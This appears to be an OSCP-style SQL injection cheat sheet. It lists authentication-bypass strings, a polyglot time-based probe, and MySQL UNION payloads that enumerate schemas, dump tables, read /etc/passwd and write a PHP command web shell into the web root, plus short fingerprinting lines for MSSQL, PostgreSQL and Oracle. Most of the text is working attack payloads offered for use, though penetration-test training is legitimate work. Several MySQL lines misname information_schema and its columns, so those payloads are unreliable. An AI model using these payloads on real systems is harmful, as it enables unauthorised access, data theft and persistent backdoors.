 # SQLI

#### Refs
https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/sql-injection/mysql-injection/README.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md

#### Main
SQL Injection is a very common attack vector in the `OSCP` exam. You will most likely see atleast one box where it is the intended attack path. I would recommend to anyone that is unfamiliar with `SQL` to learn the language on a basic level first, and then understanding `SQLI` is way easier. With that being said the first thing you want to do is stuff the input fields with common `SQLI` cmds:

### Auth Bypass / SQLI Checker

#### God-Tier One-Liner

```txt
// Shoutout hacktricks and https://labs.detectify.com/ethical-hacking/ultimate-sql-injection-payload/ for this one.

SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

#### List of CMDs you could try

```txt
';#---                   // List pulled from 0xsyr0's github.
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

### SQL Injection

After stuffing the input fields you should either obtain access to the system as admin or the first user in the database. If not, you might've received a success message or something like that telling you that the SQL server accepted your input. Before trying please remember that I am using `'` in this situation at the beginning of every `cmd` but this will change depending on which character worked for you in the previous steps. Lastly, it's important to recognize that each different type of `SQL` db will have its own injection techniques. Next, try these common injections:

#### MySQL

```txt
## Keep in mind, depending on if you are using Union Based Or Regular SQL Injection, you need to change the commands from UNION ALL SELECT 1,2,<CMD> to SELECT <CMD>

# Get number of columns
' ORDER BY 3--

# Fingerprinting
' UNION SELECT 1, VERSION(), 3--
' UNION SELECT 1,2, DATABASE()--
' UNION SELECT 1,2, USER()--

# Get all DBs on server
' UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata

# Get table name
' UNION ALL SELECT 1,2, GROUP_CONCAT(table_name) FROM information.schema.tables WHERE table.schema="<DATABASE>"--

# Get column name
' UNION ALL SELECT 1,2, GROUP_CONCAT(column_name) FROM information.schema.columns WHERE table.schema="<DATABASE>" AND table.name="<TABLE>"--

# Data dump
' UNION ALL SELECT 1,2,GROUP_CONCAT(CONCAT_WS(':', col1, col2, col3) SEPARATOR ' | ') FROM <TABLE>--

# File read
' SELECT LOAD_FILE('/etc/passwd')--

# Grab web config info
' SELECT LOAD_FILE('/etc/httpd/conf/httpd.conf')--

# AND

' SHOW VARIABLES LIKE 'secure_file_priv'--

# Create webshell
' SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/<FILE>.php"--

# OR

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php"--
```
A couple extra things to keep in mind. `--` comments out the rest of the line. `0x7c` is just ASCII for a pipe. `+` is just url encoding for spaces.




#### MSSQL

```txt
# Fingerprinting
' UNION ALL SELECT 1,@@VERSION,3--
' UNION ALL SELECT 1,SYSTEM_USER,3--
' UNION ALL SELECT 1,DB_NAME(),3--



```

#### PostgreSQL

```txt
' UNION SELECT VERSION(), NULL-- 
```

#### Oracle SQL

```txt
' UNION ALL SELECT banner, NULL FROM v$version-- 
```
